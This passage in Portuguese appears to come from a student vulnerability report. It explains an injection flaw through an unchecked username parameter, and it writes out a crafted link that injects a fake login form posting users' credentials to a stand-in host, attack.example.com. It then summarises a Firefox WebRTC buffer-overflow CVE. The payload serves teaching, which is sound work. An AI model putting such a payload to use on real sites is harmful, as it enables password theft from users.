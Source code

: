 Sendo que a variável **$userName** não verificada em busca de um *input* malicioso, um atacante poderia o seguinte link para redirecionar um utilizador:

```
    http://trustedSite.example.com/welcome.php?username=<div 
    id="stealPassword">Please Login:<form name="input" 
    action="http://attack.example.com/stealPassword.php" 
    method="post">Username: <input type="text" name="username"/>
    <br/>Password: <input type="password" name="password" />
    <br/><input type="submit" value="Login" /></form></div>
```

Um utilizador ao clicar neste *link*, será redirecionado para uma página com o seguinte conteúdo:

```html
    <div class="header"> Welcome, <div id="stealPassword"> Please Login:
        <form name="input" action="attack.example.com/stealPassword.php" 
        method="post">
            Username: <input type="text" name="username" /><br/>
            Password: <input type="password" name="password" /><br/>
            <input type="submit" value="Login" />
        </form>
    </div></div>
```

Neste caso, o resultado seria que após **efetuar login numa página com código malicioso**, as **credenciais de acesso do utilizador serão submetidas para o atacante**.  


## Firefox 

Versão Instalada: 82.0  

### 1ª Vulnerabilidade ### 

**CVE-2020-6831**

Esta vulnerabilidade permite que um *buffer overflow* possa ocorrer quando é efetuado o *parsing* e validação de *chunks STCP* na WebRTC(framework de comunicação em tempo real usada pelo browser). Isto poderia levar à corrupção da memória e um potencial *crash* da máquina. Esta vulnerabilidade afeta as versões do **Firefox ESR < 68.8, Firefox < 76, e Thunderbird < 68.8.0**.

